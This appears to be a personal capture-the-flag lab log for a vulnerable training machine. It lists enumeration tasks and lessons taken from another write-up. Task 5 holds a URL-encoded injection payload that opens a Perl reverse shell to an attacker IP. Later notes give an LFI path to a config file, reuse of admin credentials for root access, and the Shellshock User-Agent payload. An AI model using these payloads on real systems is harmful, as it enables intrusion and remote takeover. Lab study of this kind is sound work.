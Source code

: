 <br/>

* <span class="helpmach subtitle">Task 5</span>    
    Find out what this php code means 
    ```
  https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.8%3a1234%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A
  ```
* <span class="helpmach subtitle">Result</span>  
    Yet to be accomplished. 

<br/>

* <span class="helpmach subtitle">Task 6</span>  
   Gobuster the http service.
* <span class="helpmach subtitle">Result</span>   
   Didn't find anything useful.  

<br/>

* <span class="helpmach subtitle">Task 7</span>  
   Trying to exploit the IMAP or the POP3 services.
* <span class="helpmach subtitle">Result</span>   
   Didn't find any exploit on the version we have (2.3.7).  

<br/>

* <span class="helpmach subtitle">Task 8</span>  
   Research exploits for the php version or the phpinfo file we found on the website.
* <span class="helpmach subtitle">Result</span>   
   So far they seem like they're a bit hard to understand to be honest. Too much use of libraries and so little explanation.
<br/><br/>

### <span class="helpmach subtitle">Why I Got Stuck?  
<br/><br/>

### <span class="helpmach subtitle">Nice Things I Found in Someone Else's Write Up  

* <span class="helpmach">The LFI Exploit</span>  
  1. In the file we were able to get to through this path `/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`, instead of just reading it as is I could've opened the source code where it was written in a much more readable way.

  2. I could've logged in as `root` with the admin's password through ssh and BOOM I'll get access to the machine with root privilage also.

* <span class="helpmach">Webmin Exploit</span>  
   1. I had the ability to sign into it also with the admin's credentials. When I tried that it didn't work not sure why, I think I probably pasted the password in a wrong way or sth.
   2. The writeup's author words `Logged in here, I basically own the system. I can change passwords for any user (see image above), schedule crons, install packages, or run commands as any user.`
   3. So how does it give me access to the box?  
   <img src="webmin_shell.PNG">  

* <span class="helpmach">ShellShock</span>  
   1. I've been experimenting with shellshock the wrong way, they used he User-Agent header.
   2. Wherever there's CGI there's shellshock, that's what the writeup states.
   3. It's so simple you just put the following in the User-Agent header `() { :; };[cmd]`, so to try it out they used the command `sleep 10` so a delay would be evident.

* <span class="helpmach">SMTP</span>  
  ```